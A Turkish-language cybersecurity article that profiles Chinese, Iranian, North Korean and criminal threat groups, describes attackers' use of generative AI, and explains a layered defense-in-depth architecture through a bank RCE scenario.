* **Atıflandırma ve Motivasyon:** Muhtemelen devlet yetkililerinin zımni onayıyla finansal motivasyonlu operasyonlar da yürüten Çin devlet destekli yükleniciler olduğuna inanılmaktadır. Bu, benzersiz bir çift amaçlı casusluk ve siber suç motivasyonu yaratır.
* **Hedef Profili:** Casusluk kampanyaları sağlık, telekomünikasyon ve yüksek teknoloji sektörlerini hedefler. Siber suç saldırıları, video oyunu endüstrisine (sanal para birimlerini manipüle etme) ve fidye yazılımı dağıtımına odaklanır.
* **Operasyonel Özet ve TTP'ler:** En az 2012'den beri aktif olan üretken ve sofistike bir aktördür. Arka kapılar, rootkitler ve kimlik bilgisi hırsızları da dahil olmak üzere 46'dan fazla farklı kötü amaçlı yazılım ailesinden oluşan geniş bir cephanelik kullanmalarıyla tanınırlar. İlk erişim için genellikle derlenmiş HTML (.chm) dosyaları içeren hedefli oltalama saldırılarına güvenirler.

#### Diğer Önemli Çin Bağlantılı Gruplar

* **APT3 (Gothic Panda / Brocade Typhoon):** Havacılık, savunma ve teknolojiyi hedefler.
* **APT18 (Dynamite Panda / Wekby):** PLA Donanması ile bağlantılıdır, sağlık, ilaç ve biyoteknolojiyi hedefler.
* **APT27 (Emissary Panda / Linen Typhoon):** Orta Asya ve Avrupa'da hükümet ve savunma sektörlerini hedefler.
* **APT31 (Zirconium / Violet Typhoon):** Politik kuruluşları, savunma ve yüksek teknoloji sektörlerini hedefler.
* **APT40 (Leviathan / Gingham Typhoon):** Denizcilik endüstrilerini ve Çin'in Kuşak ve Yol Girişimi için stratejik olan sektörleri hedefler.

APT41'in profili, Çin siber operasyonlarında önemli bir eğilimi ortaya koymaktadır: kendi kâr amaçlı siber suçlarını yürütmelerine izin verilen devlet sözleşmeli aktörlerin kullanılması. Bu ikili amaçlı model, atıflandırmayı ve müdahaleyi karmaşıklaştırır. Bu durum, savunucular için, başlangıçta finansal motivasyonlu gibi görünen bir sızmanın (örneğin, bir oyun şirketini hedef alan fidye yazılımı) devlet destekli bir casusluk operasyonunun habercisi veya örtüsü olabileceği anlamına gelir. Bu, yalnızca ilk göstergelere dayanarak motivasyonun varsayılmadığı daha bütünsel bir olay müdahalesi yaklaşımını gerektirir.

Ek olarak, Çinli APT'lerin hedefleme kalıpları rastgele değildir; Kuşak ve Yol Girişimi (APT40) ve 5 yıllık ekonomik planlar (APT41'in fikri mülkiyet hırsızlığı) gibi Çin'in ulusal stratejik hedefleriyle sıkı bir şekilde uyumludur. Bu, jeopolitik/ekonomik politika ile siber operasyonlar arasında doğrudan bir bağlantı olduğunu göstermektedir. Bunun anlamı, kuruluşların Çin'in kamuya açık stratejik belgelerini analiz ederek proaktif tehdit modellemesi yapabileceğidir. Bir şirket, Çin'in kalkınması için öncelikli olarak belirlenen bir sektörde faaliyet gösteriyorsa, Çin bağlantılı bir APT için olası bir hedeftir.

### 4.3. İran Bağlantılı Aktörler: Sosyal Mühendislik ve Siber Sabotaj

Bu bölüm, sosyal mühendisliğe yoğun bir şekilde güvenmeleri, muhalifleri hedef almaları ve casusluk ile yıkıcı operasyonların bir karışımını kullanmalarıyla dikkat çeken İran'a atfedilen tehdit aktörlerini kapsayacaktır.

#### APT33 (Elfin) & APT34 (OilRig)

* **Takma Adlar:** Elfin, Magnallium (Mandiant), HOLMIUM, Peach Sandstorm (Microsoft), Refined Kitten (CrowdStrike).
* **Atıflandırma ve Motivasyon:** En az 2013'ten beri aktif olan, şüpheli İran hükümeti destekli bir grup. Motivasyonları arasında siber casusluk ve potansiyel olarak kritik altyapıya yönelik yıkıcı operasyonlara hazırlanma bulunmaktadır.
* **Hedef Profili:** Öncelikle ABD, Suudi Arabistan ve Güney Kore'deki havacılık, enerji ve hükümet sektörlerini hedefler.
* **Operasyonel Özet ve TTP'ler:** Düşük maliyetli ilk erişim yöntemlerini özel yapım kötü amaçlı yazılımlarla birleştirir.
* **İlk Erişim:** Kötü amaçlı ekler (genellikle iş ilanı temalı) içeren hedefli oltalama saldırılarına ve parola püskürtmeye dayanır. Kamuoyuna açıklanmış güvenlik açıklarını (N-days) istismar ettikleri bilinmektedir.
* **Kötü Amaçlı Yazılım:** DROPSHOT ve SHAPESHIFT gibi özel kötü amaçlı yazılımların yanı sıra kötü şöhretli Shamoon veri silme yazılımını kullanır. Kimlik bilgisi dökümü için Mimikatz ve LaZagne gibi halka açık araçları da kullanırlar.

* **Takma Adlar:** OilRig, Helix Kitten (Kaspersky), Hazel Sandstorm, EUROPIUM (Microsoft), Crambus, IRN2.
* **Atıflandırma ve Motivasyon:** İran İstihbarat ve Güvenlik Bakanlığı (MOIS) ile bağlantılıdır. 2014'ten beri aktif olan motivasyonları, İran devlet çıkarlarıyla uyumlu siber casusluk ve istihbarat toplamadır.
* **Hedef Profili:** Finans, hükümet, enerji, kimya ve telekomünikasyon sektörlerini geniş bir şekilde hedef alır ve öncelikli olarak Orta Doğu'ya odaklanır.
* **Operasyonel Özet ve TTP'ler:** PowerShell tabanlı araçlar ve C2 için DNS tünelleme kullanmalarıyla tanınırlar.
* **Kampanyalar:** 2016 Helminth arka kapı kampanyası ve 2018 QUADAGENT dağıtımı önemli örneklerdir. Genellikle, birincil hedeflerine ulaşmak için daha az güvenli bir kuruluşu ele geçirerek tedarik zinciri saldırıları düzenlerler.
* **Kötü Amaçlı Yazılım:** Helminth ve QUADAGENT gibi özel arka kapılar kullanırlar. 2019'daki bir sızıntı, araç setlerinin önemli bir bölümünü ortaya çıkarmıştır.

#### APT35/APT42 (Charming Kitten / Mint Sandstorm)

* **Takma Adlar:** Charming Kitten, Phosphorus, Magic Hound (CrowdStrike), Mint Sandstorm (Microsoft), Agent Serpens (Palo Alto), Newscaster Team, TA453.
* **Atıflandırma ve Motivasyon:** İran Devrim Muhafızları Ordusu'na (IRGC) atfedilir. Temel motivasyonları, İran hükümeti için stratejik öneme sahip kişi ve kuruluşlara, özellikle muhaliflere ve rejimin düşmanlarına karşı gözetim ve bilgi toplamadır.
* **Hedef Profili:** Gazetecileri, araştırmacıları, akademisyenleri, insan hakları aktivistlerini, hükümet yetkililerini ve yurtdışındaki İran diasporasını hedefler.
* **Operasyonel Özet ve TTP'ler:** Sosyal mühendislik ve aldatma ustalarıdır.
* **Teknikler:** Kurbanlarla güven ve ilişki kurmak için sahte kimlikler ve web siteleri oluşturarak uzun vadeli, kaynak yoğun sosyal mühendislik kampanyaları yürütürler, ardından oltalama bağlantıları veya kötü amaçlı yazılımlar gönderirler. Tespitten kaçmak için ele geçirilmiş e-posta hesaplarını ve meşru bulut hizmetlerini C2 için kullanırlar. Bazı kampanyalarda fidye yazılımı da kullanmışlardır.

İranlı APT'ler, daha teknik odaklı Rus ve Çinli grupların aksine, sofistike ve uzun soluklu sosyal mühendislikte ustalık ve yoğun bir bağımlılık sergilemektedir. Sıfır gün (zero-day) açıklarını kullanmamalarını, psikolojik manipülasyona yaptıkları yatırımla telafi ederler. Birden fazla kaynak, Charming Kitten'ın (APT35/42) temel TTP'sinin bir saldırıdan önce uzun süreler boyunca güven ve ilişki kurmak olduğunu belirtmektedir. Bu, diğer devlet aktörlerinden görülen daha doğrudan hedefli oltalama veya güvenlik açığı istismarından farklıdır. Bu durum, İran'ın siber doktrininin, dijital alana uyarlanmış insan istihbaratı (HUMINT) tekniklerine öncelik verdiğini göstermektedir. Savunucular için bunun anlamı, yalnızca e-posta filtreleme gibi teknik kontrollerin yetersiz olduğudur. Güçlü bir savunma, sağlam bir kullanıcı güvenlik farkındalığı eğitimi ve ne kadar makul görünürse görünsün bilinmeyen kişilerin kimliğini doğrulama süreçleri gerektirir.

### 4.4. Kuzey Kore Bağlantılı Aktörler: Siber Orduyla Finansal Savaş

Bu bölüm, rejim için gelir elde etmek amacıyla devlet destekli casusluk ve büyük ölçekli mali suçları bir arada yürütme gibi benzersiz bir göreve sahip olan Kore Demokratik Halk Cumhuriyeti'ne (KDHC) atfedilen tehdit aktörlerini analiz edecektir.

#### Lazarus Group (Diamond Sleet / APT38) & Kimsuky (Emerald Sleet / APT43)

* **Takma Adlar:** Diamond Sleet, ZINC (Microsoft), HIDDEN COBRA (ABD Hükümeti), Guardians of Peace, APT38 (Mandiant, finansal operasyonlar için).
* **Atıflandırma ve Motivasyon:** Keşif Genel Bürosu'na (RGB) atfedilen Kuzey Kore devlet destekli bir grup. Geleneksel casusluk ve uluslararası yaptırımları ihlal ederek yasadışı gelir elde etmek için kripto para hırsızlığı ve banka soygunları da dahil olmak üzere finansal motivasyonlu saldırılar gibi ikili bir motivasyona sahiptirler.
* **Hedef Profili:** Casusluk hedefleri arasında küresel olarak medya, savunma ve BT endüstrileri bulunmaktadır. Finansal hedefler arasında bankalar, finansal kurumlar ve kripto para borsaları ve kullanıcıları yer almaktadır.
* **Operasyonel Özet ve TTP'ler:** En az 2009'dan beri aktiftir.
* **Önemli Kampanyalar:** 2014 Sony Pictures saldırısı (Destover silici kötü amaçlı yazılımını kullanarak) , 2016 Bangladeş Bankası soygunu (SWIFT aracılığıyla 81 milyon dolar çalındı) , 2017 WannaCry fidye yazılımı saldırısı ve çok sayıda milyonlarca dolarlık kripto para soygunu.
* **TTP'ler:** Destover, Manuscrypt gibi geniş bir özel kötü amaçlı yazılım yelpazesi kullanırlar. İlk erişim için genellikle hedefli oltalama kullanırlar ve savunmadan kaçma ve yanal hareket konusunda ustadırlar. Finansal alt grupları olan Bluenoroff, finansal kurumlara yönelik son derece hedefli saldırılarda uzmanlaşmıştır.

* **Takma Adlar:** Emerald Sleet (Microsoft), Velvet Chollima, Black Banshee (CrowdStrike), THALLIUM, APT43, TA406.
* **Atıflandırma ve Motivasyon:** Muhtemelen RGB'ye bağlı olan ve küresel istihbarat toplama göreviyle görevlendirilmiş bir Kuzey Kore APT grubu. Odak noktaları, Kore yarımadası, nükleer politika ve yaptırımlarla ilgili dış politika, ulusal güvenlik ve nükleer politika konularıdır. Ayrıca operasyonları finanse etmek için finansal motivasyonlu suçlara da karışırlar.
* **Hedef Profili:** Öncelikle Güney Kore, ABD, Japonya ve Avrupa'daki hükümet kuruluşlarını, düşünce kuruluşlarını, gazetecileri ve akademik uzmanları hedefler.
* **Operasyonel Özet ve TTP'ler:** En az 2012'den beri aktiftir.
* **Teknikler:** Kötü amaçlı bağlantılar veya ekler göndermeden önce ilişki kurmak için gazeteci veya akademisyen gibi davranarak sosyal mühendislik ve hedefli oltalama ustalarıdır. BabyShark gibi özel kötü amaçlı yazılımlar kullanır ve yürütme ve kalıcılık için PowerShell ve VBScript gibi meşru araçlardan yararlanırlar. Oltalama kampanyalarını geliştirmek için kötü amaçlı tarayıcı uzantıları kullandıkları ve yanlış yapılandırılmış DMARC politikalarını istismar ettikleri bilinmektedir.

#### Diğer Önemli Kuzey Kore Bağlantılı Gruplar

* **APT45 (Andariel / Onyx Sleet):** Yine RGB ile bağlantılı, 2009'dan beri aktif olan orta düzeyde sofistike bir operatör. Savunma ve hükümete karşı casusluk yürütürler, ancak hastanelere karşı MAUI fidye yazılımının şüpheli kullanımı da dahil olmak üzere finansal motivasyonlu operasyonlara genişlemişlerdir.

Kuzey Kore'nin siber operasyonları, devlet casusluğunun büyük ölçekli suç girişimiyle en açık şekilde birleştiği noktayı temsil etmektedir. Diğer uluslarda e-suçun tolere edildiği veya fırsatçı bir şekilde kullanıldığı durumların aksine, KDHC için bu, yaptırımları aşmak ve devleti ile askeri ve nükleer programlarını finanse etmek için ulusal stratejisinin temel bir direğidir. Lazarus Grubu, Bangladeş Bankası soygunu gibi büyük finansal soygunlar ve yüz milyonlarca dolarlık sayısız kripto para hırsızlığıyla açıkça ilişkilidir. ABD hükümeti ve güvenlik firmaları, bu faaliyetlerin rejim için yasadışı gelir elde etme amaçlı olduğunu doğrudan belirtmektedir. Bu, sadece "suç" değil; devlet tarafından yönlendirilen finansal savaş ve dış politikalarının temel bir bileşenidir. Bunun anlamı, finans veya kripto para sektörlerindeki herhangi bir kuruluşun, sadece casusluk için değil, aynı zamanda doğrudan hırsızlık için de bir Kuzey Kore devlet aktörünün doğrudan hedefi olduğudur.

### 4.5. Diğer Önemli Tehdit Aktörleri

Bu bölüm, daha eksiksiz bir küresel resim sunmak için araştırma materyalinde bahsedilen diğer önemli devlet destekli ve finansal motivasyonlu grupları kısaca ele alacaktır.

#### Vietnam Bağlantılı: APT32 (OceanLotus)

* **Takma Adlar:** OceanLotus, Canvas Cyclone (Microsoft).
* **Operasyonel Özet:** Vietnam'ın imalat, tüketim ürünleri ve konaklama sektörlerinde çıkarları olan yabancı şirketlere, yabancı hükümetlere ve siyasi muhaliflere karşı siber casusluğa odaklanan Vietnam devlet destekli bir grup.

#### Finansal Motivasyonlu Aktörler (e-Suç)

* **FIN7:** Restoran, oyun ve konaklama sektörlerindeki satış noktası (POS) sistemlerini hedef alarak ödeme kartı verilerini çalmakla tanınan sofistike ve üretken bir e-suç grubu.
* **SCATTERED SPIDER (Octo Tempest):** Özellikle telekomünikasyon ve BPO sektörlerindeki büyük şirketlere ilk erişim sağlamak için BT yardım masalarını hedef alan sosyal mühendislik saldırılarıyla tanınan son derece yetenekli bir e-suç grubu.

FIN7 ve SCATTERED SPIDER gibi finansal motivasyonlu gruplar tarafından kullanılan TTP'ler, giderek artan bir şekilde ulus-devletlerin kullandıklarına benzemektedir. Yüksek düzeyde operasyonel güvenlik, sosyal mühendislik uzmanlığı ve MFA gibi modern savunmaları atlatma yeteneği sergilemektedirler. SCATTERED SPIDER'ın sesli oltalama (vishing) ve yardım masası dolandırıcılığı kullanımı, sofistike bir sosyal mühendislik taktiğidir. Genel eğilim, sadece ulus-devletlerden değil, tüm tehdit aktörleri arasında kötü amaçlı yazılım içermeyen, kimlik tabanlı saldırılarda büyük bir artış olduğunu göstermektedir. Bu, bir zamanlar "gelişmiş" olarak kabul edilen araç ve tekniklerin artık standart e-suç oyun kitabının bir parçası olduğunu göstermektedir. Bunun anlamı, teknik ve savunma açısından "ulus-devlet" ile "üst düzey bir suçlu" arasında savunma yapma ayrımının giderek bulanıklaşmasıdır. Kuruluşlar, herhangi bir düşmanın sofistike, kimlik odaklı TTP'ler kullanabileceğini varsaymalıdır.

---

## Modern Tehditlerin Ortak Silahı: Yapay Zeka (GenAI) Tehdidi

Üretken Yapay Zeka (GenAI) teknolojilerinin patlaması, siber saldırganların eline son derece güçlü otomasyon ve manipülasyon yetenekleri vermiştir.


*GenAI destekli deepfake'ler — sosyal mühendisliğin yeni boyutu.*

### 5.1. Saldırgan Ekosisteminde GenAI Adaptasyonu

Saldırganlar, LLM (Büyük Dil Modelleri) teknolojilerini şu amaçlarla kullanmaktadır:
1.  **Polimorfik Zararlı Yazılımlar:** Güvenlik yazılımları tarafından tespit edilmesini zorlaştırmak amacıyla, her çalıştırıldığında kendi kod yapısını ve imzasını değiştiren payload'ları yapay zekaya yazdırıp optimize ettirmektedirler.
2.  **Hızlı Zafiyet İstismarı:** Yayınlanan yeni bir CVE (zafiyet) açıklamasını LLM'e analiz ettirerek, saatler içinde çalışan bir exploit (istismar kodu) prototipi üretebilmektedirler.

### 5.2. Kusursuz Oltalama (Spear-Phishing) Çağı

Eski dönemdeki kimlik avı e-postaları, bozuk dil bilgisi kuralları ve yazım hataları sayesinde kolayca tespit edilebiliyordu. Bugün ise GenAI araçları sayesinde:
*   Saldırganlar, hedefledikleri genel müdürün veya SOC analistinin ana dilinde, tamamen kusursuz ve profesyonel e-postalar yazabilmektedir.
*   Hedef kişinin sosyal medya paylaşımlarını yapay zekaya analiz ettirerek kişiselleştirilmiş (hiper-hedefli) spear-phishing senaryoları oluşturabilmektedirler.
*   **Deepfake** teknolojileri kullanılarak, bir şirket yöneticisinin sesini veya video görüntüsünü taklit ederek muhasebe departmanına acil para transferi talimatı veren (CEO Fraud / BEC) gelişmiş dolandırıcılık operasyonları düzenlenmektedir.

---

Saldırganların elindeki bu yapay zeka otomasyonu, kusursuz oltalama e-postaları ve polimorfik zararlı yazılımlar karşısında geleneksel çeper savunmaları (Firewall) tek başına tamamen çaresizdir. Düşmanın hızını kesmek ve onu kendi labirentimizde boğmak için tek bir çare kalıyor: Derinlemesine Savunma (Defense-in-Depth) mimarisi.

## Modern İşletmeler İçin Katmanlı Savunma (Defense-in-Depth) Mimarisi

Çoğu güvenlik uzmanı, mükemmel ağ güvenliğinin imkansız olduğu ve herhangi bir savunmanın her zaman aşılabileceği görüşünde birleşiyor. Derinlemesine savunma stratejisi, saldırganı birden fazla savunma katmanıyla engellemeyi benimsiyor. Her bir katmanın aşılabileceğini kabul ediyor. Değerli varlıklar, daha fazla savunma katmanıyla korunuyor. Birden fazla katmanın kombinasyonu, saldırının başarı maliyetini artırıyor ve bu maliyet korunan varlıkların değeriyle orantılı oluyor. Ayrıca, birden fazla katmanın kombinasyonu, beklenmedik saldırılara karşı optimize edilmiş tek bir savunmadan daha etkili oluyor. Saldırgan için maliyet, ek zaman, çaba veya ekipman olarak ortaya çıkabilir. Örneğin, bir saldırganın gecikmesi, bir kuruluşun devam eden saldırıyı tespit etme ve yanıt verme şansını artırabilir. Eğer artan maliyetler, başarılı bir saldırıdan elde edilebilecek kazançtan daha ağır basıyorsa, bazı girişimler caydırabilir.



Defense In Depth

Derinlemesine savunmanın bazen insan, teknoloji ve operasyonları içerdiği söylenir. Eğitimli güvenlik çalışanları tesislerin güvenliğinden ve bilgi güvencesinden sorumlu olmalıdır. Ancak, bir kuruluştaki her bilgisayar kullanıcısı güvenlik politikaları ve uygulamaları konusunda bilinçlendirilmelidir. Evdeki her İnternet kullanıcısı güvenli uygulamalar (e-posta eklerini açmaktan veya şüpheli bağlantılara tıklamaktan kaçınmak gibi) ve uygun korumanın (antivirüs yazılımı, güvenlik duvarları) faydaları hakkında bilgi sahibi olmalıdır.

Koruma katmanları için çeşitli teknolojik önlemler kullanılabilir. Bunlar arasında güvenlik duvarları, IDS'ler, erişim kontrol listeleri (ACL'ler), antivirüs yazılımı, erişim kontrolü, spam filtreleri vb. yer almalıdır.



Defense in Depth

**Derinlemesine Savunma (Defense-in-Depth)**, bir dizi savunma mekanizmasını kullanarak veri ve bilgileri korumak amacıyla katmanlar halinde uygulanan bir siber güvenlik yaklaşımıdır.

Bir katmanın aşılması durumunda diğer katmanlarda saldırının yakalanması ve önlenmesi prensibiyle çalışır. Bu stratejinin bir otorite tarafından yayınlanmış belli katmanları yoktur. Ancak, bu yazımda ben kendi yorumumla olası birkaç katman ile birlikte nasıl korunabileceğimizi anlatmaya çalışacağım. Bu konuya detaylı değindiğim yazıma [buradan](https://medium.com/@yusufarbc/derinlemesine-savunma-defense-in-depth-stratejisi-64e0be8ec1f0) erişebilirsiniz.

Ancak bundan önce değinmemiz gereken bir husus daha var. Bir siber saldırıda kullanılan taktikler ve yöntemler Mitre tarafından sınıflandırılmış ve listelenmiştir. Yazımda, bu taktiklere sıkça değineceğim ancak yazıyı uzatmamak adına bu taktiklerin detayına girmiyorum. Mitre attack enterprise matrisine linkten erişebilirsiniz:<https://attack.mitre.org/matrices/enterprise/>

Senaryom, bir kuruluşun belli bir hizmetinde keşfedilen sıfırıncı gün zafiyetinin ve bu zafiyeti istismar eden bir saldırının tespiti ve önlenmesini kapsamaktadır. Tabi, keşfedilen zafiyetler arasında en kritik olanlarından birini; kurumun dışarı açık bir servisinde ortaya çıkan ve uzaktan erişime(RCE) olanak tanıyan bir zero-day zafiyetini istismar eden bir saldırının tespiti ve önlenmesini ele alalım.



Banka Ağ Topolojisi

Sernaryo kapsamında bir bankanın dışarı açık bir servisinde bir RCE zafiyeti yayınlandığını ele alalım. Ve katman katman bu zafiyeti istismar eden bir saldırıyı gerçekleştirip önleyelim.

Defense In Depth


```mermaid
graph TD
    subgraph "Saldırgan Aşaması"
        A[Internet] -->|"İlk Erişim"| B(WAF / Yama Yönetimi)
        B -- "Atlatma" --> C(EDR / XDR)
        C -- "Yetki Yükseltme" --> D(Mikro-segmentasyon / NDR)
        D -- "Yanal Hareket" --> E(DLP / Şifreleme)
    end

    subgraph "Hedef"
        E --> F[Kritik Veri / Veritabanı]
    end
```

### Katman 1: Uygulama Koruması (Application Protection) - Dış Çeper

Çoğu bilgisayar kullanıcısı İnternet kullanımının güvenlik riskleri oluşturduğunun farkındadır. Saldırılara maruz kalmayı en aza indirmek için önlemler almak mantıklı olacaktır. Neyse ki, bilgisayar kullanıcılarının sistemlerini güçlendirerek riskleri azaltmaları için çeşitli seçenekler mevcuttur.

Daha önce de belirtildiği gibi, güvenlik açıkları, bir bilgisayarı tehlikeye atmak için kullanılabilecek yazılımdaki zayıflıklardır. Savunmasız yazılımlar her türlü işletim sistemini ve uygulama programını içerir. Sürekli olarak farklı şekillerde yeni güvenlik açıkları keşfedilmektedir. Güvenlik araştırmacıları tarafından keşfedilen yeni güvenlik açıkları genellikle satıcıya gizli olarak bildirilir ve satıcıya güvenlik açığını incelemesi ve yama geliştirmesi için zaman verilir. Günümüzde açıklanan zafiyetlerin önemli bir kısmı, satıcı yamaları yayınlanmadan önce aktif olarak istismar edilmektedir — bu da "sıfır gün penceresi" kavramını her geçen yıl daha kritik hale getirmektedir. Hazır olduğunda, satıcı güvenlik açığını tercihen bir yamayla birlikte kamuoyuna duyuracaktır.

Güvenlik açıklarının yayınlanmasının saldırganlara yardımcı olacağı iddia edilmiştir. Bu doğru olsa da, yayınlama aynı zamanda tüm toplumda farkındalık yaratır. Sistem yöneticileri sistemlerini değerlendirebilecek ve uygun önlemleri alabileceklerdir. Sistem yöneticilerinin ağlarındaki bilgisayarların yapılandırmasını bilmeleri beklenebilir, ancak büyük kuruluşlarda kullanıcılar tarafından yapılan olası yapılandırma değişikliklerini takip etmek zor olacaktır. Zafiyet testi, bir ağdaki bilgisayarların yapılandırması hakkında bilgi edinmek için basit bir yol sunar.

Zafiyet testi, bilinen güvenlik açıkları için sistemleri araştırmaya yönelik bir alıştırmadır. Belirli bir güvenlik açığını test etmek üzere bir dizi paket oluşturmak için bilinen güvenlik açıklarından oluşan bir veritabanı, bir paket oluşturucu ve test rutinleri gerektirir. Bir güvenlik açığı bulunursa ve bir yazılım yaması mevcutsa, o an bilgisayar yamalanmalıdır.

Güvenlik politikanız düzenli güvenlik açığı testlerini içermelidir. WebInspect, Acunetix, GFI LANguard, Nessus, HFNetChk ve Tripwire gibi bazı çok iyi güvenlik açığı test araçları, kendi güvenlik testinizi yapmanıza olanak tanır. Ayrıca, ağınızı açık ve/veya erişilebilir bağlantı noktaları, güvenlik duvarlarındaki zayıflıklar ve Web sitesi güvenlik açığı açısından taramak üzere sözleşme yapılabilecek en gelişmiş test araçları paketine sahip üçüncü taraf şirketler de mevcuttur.

Ayrıca, yerleşik normlara yakın veya dışında görünenlere vurgu yaparak, tüm faaliyetlerin düzenli ve ayrıntılı denetimlerini de hesaba katmalısınız. Örneğin, normal mesai saatlerinden sonra, normalde bu tür bir trafiğin beklenmeyeceği yüksek veri alışverişi oranlarını ortaya çıkaran denetimler araştırılması gereken bir konudur. Belki de kontrol ettikten sonra, bunun bir çalışanın müzik veya video dosyaları indirmesinden başka bir şey olmadığını göreceksiniz. Ancak önemli olan nokta, denetim sisteminizin trafikteki artışı görmesi ve bunun birinin daha kritik verileri hortumlamasından ziyade basit bir İnternet kullanım politikası ihlali olduğunu belirlemesidir.

Güvenlik, kullanım ve/veya politika ihlallerinin yanı sıra teşebbüs edilen veya fiili izinsiz girişlerle başa çıkmak için açıkça belirlenmiş kurallar olmalıdır. İş işten geçtikten sonra ne yapılacağını anlamaya çalışmak çok geç olur. Ve bir izinsiz giriş meydana gelirse, hasarın boyutunu belirlemek için net bir sistem olmalı; istismar edilen uygulama, bağlantı noktası veya makinenin izolasyonu ve daha fazla saldırıya karşı deliği kapatmak için hızlı bir yanıt olmalıdır.

İlk savunma katmanımız uygulama güvenliği katmanı. Bu katmanda, dışarıya sunduğumuz servislere gelen saldırıları önlemeye çalışırız. Saldırganın ise bu katmanda amacı hedef sisteme erişim sağlamak veya hizmet kesintisine yol açmaktır.

Bu katmanda:

* Kullandığımız uygulamalar ve servisler için düzenli zafiyet taramaları yapılır. (Vulnerability Management Solutions)
* Uygulamalara gelen saldırıları tespit etmek için uygulama logları toplanır ve SIEM sisteminde incelenir. (SOC)
* Uygulama güvenlik duvarlarının(Application Firewall) arkasına alınarak uygulamar saldırılardan korunmaya çalışılır. (WAF)



Application Protection

Sıfırıncı gün saldırıları bu katmanı aşabilir. Çünkü, yapılan zafiyet taramaları sıfırıncı gün zafiyetini tespit edemez. SIEM sistemimizde yer alan kurallar sıfırıncı gün zafiyeti için uyarı vermez. Uygulama güvenlik duvarımız ise çeşitli metotlar([Defense Evasion](https://attack.mitre.org/tactics/TA0005)-Mitre) ile aşılabilir.

Bizim senaryomuzda RCE zafiyetinin istismar edilmesi ve hedef sisteme erişim sağlanması bu katmanın aşıldığı anlamına gelir. Mitre'de yer alan ilk erişim([Initial Access](https://attack.mitre.org/tactics/TA0001)-Mitre) aşaması başarılı olmuştur. Yetkisiz erişim sağlanmıştır ve bizim bundan haberimiz yoktur. Ancak henüz saldırganın elinde bir kazanım olmadığını da ekleyelim. Yinede saldırgan bizden 1–0 önde görünüyor. Ancak bizim daha geride 3 savunma hattımız daha bulunuyor. Hadi bunlara göz atmaya devam edelim.

### Katman 2: Endpoint Koruması (Endpoint Protection) - İç Kalenin Muhafızları


```mermaid
sequenceDiagram
    participant AD as Saldırı Tespiti
    participant AA as Saldırı Analizi
    participant AR as Saldırı Yanıtı

    AA ->> AD: Saldırıya uğrayan uç nokta hakkında bilgi al

    par 3 Kritik Soru
        AA ->> AA: Sistemde aktif zararlı yazılım var mı?
        AA ->> AA: Şüpheli iç/dış iletişim (ağ bağlantısı) var mı?
        AA ->> AA: Kalıcılık mekanizması var mı?
    end

    AA ->> AR: Müdahale talebi ve yetkilendirme
    AR ->> AA: Onay ve hesap tutma
```

Bilgisayar güvenliğinde erişim kontrolü, kullanıcıların yetkili oldukları seviyeye kadar işlevleri yerine getirmelerine izin veren ve kullanıcıların yetkisiz işlevleri yerine getirmelerini kısıtlayan mekanizmaları ifade eder. Erişim kontrolü(**Access Control**) şunları içerir:

* Kullanıcıların kimlik doğrulaması (**Authentication**)
* Ayrıcalıklarının yetkilendirilmesi (**Authorization**)
* Kullanıcı eylemlerini izlemek ve kaydetmek için denetim (**Auditing**)

Tüm bilgisayar kullanıcıları bir tür erişim kontrolüne aşina olacaktır.

Kimlik doğrulama(**Authentication**), bir kullanıcının kimliğini doğrulama işlemidir. Kimlik doğrulama tipik olarak bu faktörlerden bir veya daha fazlasına dayanır:

* Şifre veya PIN gibi kullanıcının bildiği bir şey (**Something the user knows**)
* Kullanıcının sahip olduğu akıllı kart veya token gibi bir şey (**Something the user has**)
* Parmak izi, retina deseni veya diğer biyometrik tanımlayıcılar gibi kullanıcı hakkında kişisel bir şey (**Something the user is**)

Birden fazla kanıt sunulsa bile tek bir faktörün kullanılması zayıf kimlik doğrulama olarak kabul edilir. İki faktörlü (veya çok faktörlü) kimlik doğrulama olarak adlandırılan şifre ve parmak izi gibi iki faktörün kombinasyonu güçlü kimlik doğrulama olarak kabul edilir.

Yetkilendirme (**Authorization**), kimliği doğrulanmış bir kullanıcının neler yapabileceğini belirleme sürecidir. Çoğu işletim sisteminde okuma, yazma veya yürütme erişimiyle ilgili belirlenmiş bir dizi izin vardır. Örneğin, sıradan bir kullanıcının belirli bir dosyayı okuma izni olabilir ancak dosyaya yazma izni olmayabilir, oysa bir root veya süper kullanıcı her şeyi yapmak için tam ayrıcalıklara sahip olacaktır.

Denetim (**Auditing**) kullanıcıların hesap verebilir olmasını sağlamak için gereklidir. Bilgisayar sistemleri sistemdeki eylemleri denetim izlerine ve günlüklerine kaydeder. Güvenlik amacıyla, olayları yeniden yaratmak ve analiz etmek için çok değerli adli araçlardır. Örneğin, çok sayıda başarısız oturum açma girişiminde bulunan bir kullanıcı davetsiz misafir olarak görülebilir.

Zararlı yazılımların çoğalması antivirüs yazılımına ihtiyaç duyulmasına neden olmaktadır. Antivirüs yazılımı kötü amaçlı yazılımın varlığını tespit etmek, doğasını tanımlamak, zararlı yazılımı kaldırmak (bilgisayarı dezenfekte etmek) ve bir bilgisayarı gelecekteki enfeksiyonlardan korumak için geliştirilmiştir. Algılama ideal olarak yanlış pozitifleri (yanlış alarmlar) ve yanlış negatifleri (gözden kaçan zararlı yazılımlar) aynı anda en aza indirmelidir. Antivirüs yazılımı bir dizi zorlukla karşı karşıyadır:

* Zararlı yazılım taktikleri karmaşıktır ve sürekli gelişmektedir.
* Virüs bulaşmış bilgisayarlardaki işletim sistemine bile güvenilemez.
* Zararlı yazılımlar dosyaları etkilemeden tamamen bellekte bulunabilir.
* Zararlı yazılımlar antivirüs işlemlerine saldırabilir.
* Antivirüs yazılımının işlem yükü, kullanıcıların rahatsız olup antivirüs yazılımını kapatmasına neden olacak şekilde bilgisayar performansını düşüremez.

Antivirüs yazılımı tarafından gerçekleştirilen en basit görevlerden biri dosya taramasıdır. Bu işlem, dosyalardaki baytları, bilinen bir zararlı yazılımın göstergesi olan bayt desenleri olan bilinen imzalarla karşılaştırır. İmza tabanlı(**signature-based**) tespitin genel yaklaşımını temsil eder. Yeni zararlı yazılım yakalandığında, bir imzada tanımlanabilecek benzersiz özellikler açısından analiz edilir. Yeni imza antivirüs programlarına güncelleme olarak dağıtılır. Antivirüs, dosya taraması sırasında imzayı arar ve bir eşleşme bulunursa, imza zararlı yazılımı özel olarak tanımlar. Ancak bu yöntemin önemli dezavantajları vardır: Yeni imzaların geliştirilmesi ve test edilmesi zaman alır; kullanıcıların imza dosyalarını güncel tutmaları gerekir; ve bilinen bir imzası olmayan yeni zararlı yazılımlar tespit edilemeyebilir.

